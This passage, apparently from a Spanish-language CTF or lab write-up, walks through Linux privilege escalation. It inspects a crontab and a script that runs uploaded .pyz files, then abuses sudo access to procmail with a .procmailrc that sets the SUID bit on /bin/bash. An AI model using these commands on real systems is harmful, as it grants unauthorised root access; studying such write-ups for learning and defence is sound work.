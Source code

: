 ```bash
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/3 * * * * echo '' > /var/www/chat/chatdata.txt && echo '<b>System</b> cleared the chat<br>' >> /var/www/chat/chatdata.txt
* * * * * /usr/bin/sh /usr/local/appchat/.scripts/run.sh
```

Revisando en esta ruta:
```bash
/usr/local/appchat/.scripts/run.sh
```

El contenido del script **run.sh** esta ejecutando lo que tenga el directorio uploads:
```bash
DIRECTORY="/usr/local/appchat/uploads"

for file in "$DIRECTORY"/*.pyz; do
    if [ -f "$file" ]; then
        /usr/bin/python3 "$file"
    else
        echo ""
    fi
done
```

Si listamos los permisos de ese archivo vemos que el propietario es: **system**
```bash
ls -l
total 4
-rwxr-xr-x 1 system www-data 173 Sep 18  2024 run.sh
```

Ahora para lograr explotar el binario **procmail** crearemos su archivo de configuracion para que ejecute instrucciones que nosostros definamos:
**.procmailrc**
```bash
touch .procmailrc
```

Ahora metemos esta instruccion:
```bash
:0

| chmod u+s /bin/bash
```

Explotamos el privilegio:
```bash
echo ' ' | sudo -u root /usr/bin/procmail -m .procmailrc
```
